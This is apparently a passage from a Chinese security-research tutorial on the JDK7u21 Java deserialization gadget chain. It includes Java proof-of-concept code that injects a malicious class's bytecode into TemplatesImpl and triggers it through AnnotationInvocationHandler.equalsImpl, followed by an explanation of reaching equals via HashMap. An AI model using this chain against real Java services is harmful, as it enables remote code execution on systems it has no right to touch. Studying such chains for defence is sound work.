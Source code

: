 ```java
public class JDK7u21 {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\codecollect\\RMIServer\\RMIServer\\target\\classes\\org\\example\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        HashMap map = new HashMap();
        Object annotationInvocationHandler = constructor.newInstance(Override.class, map);
        Field typeField = annotationInvocationHandler.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        typeField.set(annotationInvocationHandler, Templates.class);
        Method method = clazz.getDeclaredMethod("equalsImpl", Object.class);
        method.setAccessible(true);
        method.invoke(annotationInvocationHandler, templatesClass);
    }
}
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240910202515078.png)



## 动态代理触发equalsImpl

学过CC1都知道，AnnotationInvocationHandler是个动态代理类，用这个类代理其他类，执行方法时会跳转至AnnotationInvocationHandler.invoke

如果满足：

* 方法名是equals
* 参数只有一个
* 第一个参数类型是Object.class

就会执行equalsImpl

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240910202937471.png)

什么地方调用到了equals呢？

很容易想到HashMap。在HashMap的put方法中，调用了equals。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240910204239313.png)
